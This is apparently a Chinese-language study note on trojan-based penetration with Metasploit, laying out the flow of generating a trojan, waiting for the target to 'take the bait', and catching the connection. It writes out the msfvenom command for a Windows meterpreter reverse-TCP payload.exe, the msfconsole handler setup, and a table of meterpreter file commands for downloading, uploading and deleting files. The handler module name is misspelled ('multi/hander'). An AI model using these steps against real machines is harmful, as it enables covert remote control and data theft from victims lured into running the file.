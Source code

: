 ```yaml
---
tags:
  - linux
  - kali
---
```


### 基于木马的渗透一般流程：

> 1. 使用msfvenom<mark>生成</mark>木马
> 2. 等待对方<mark>上钩</mark>
> 3. 使用handler模块<mark>利用</mark>木马

### windows平台简单渗透测试
1. **木马生成：** `msfvenom -p windows/meterpreter/reverse_tcp lhost=<IP> lport=<port> -f exe -o payload.exe`
2. **利用木马之前的配置：**
   1. `msfconsole` 进入MSF框架主控制台
   2. `use exploit/multi/hander` 使用模块
   3. `set payload windows/meterpreter/reverse_tcp` 设置攻击载荷
   4. `set lhost=<IP>`
   5. `set lport=<port>`
3. **执行：** `exploit | run`
4. **出现 <u>meterpreter></u> 即为成功** 
### msf(metasploit-frameword)简单理解
​	msf是一款可以快速利用已发现的漏洞或快速生成木马，进而进行渗透的框架。其模块和渗透成功后的执行脚本大多都是以Ruby语言实现的。
##### 渗透成功后的操作：
-  meterpreter
-  shell
##### 主要工具
- `msfvenom`	可以生成多平台的木马
##### 主要模块
-  `auxiliary`辅助模块
-  `exploit`漏洞模块
-  `payload`攻击载荷模块
##### 主要命令
- `use <moudule name> | <moudul index>`使用模块
- `show options` 列出当前使用的模块的配置参数
- `set <key>=<value>` 配置模块个属性的值
- `run` 一切准备就绪，开始监听

# Stdapi: File system Commands
|  Command   |                   Description                   |
| :--------: | :---------------------------------------------: |
|    cat     |    Read the contents of a file to the screen    |
|     cd     |                Change directory                 |
|  checksum  |         Retrieve the checksum of a file         |
|     cp     |           Copy source to destination            |
|    del     |            Delete the specified file            |
|    dir     |            List files (alias for ls)            |
|  download  |          Download a file or directory           |
|    edit    |                   Edit a file                   |
|   getlwd   |          Print local working directory          |
|   getwd    |             Print working directory             |
|    lcat    | Read the contents of a local file to the screen |
|    lcd     |         Change local working directory          |
|    lls     |                List local files                 |
|   lmkdir   |      Create new directory on local machine      |
|    lpwd    |          Print local working directory          |
|     ls     |                   List files                    |
|   mkdir    |                 Make directory                  |
|     mv     |           Move source to destination            |
|    pwd     |             Print working directory             |
|     rm     |            Delete the specified file            |
|   rmdir    |                Remove directory                 |
|   search   |                Search for files                 |
| show_mount |      List all mount points/logical drives       |
|   upload   |           Upload a file or directory            |
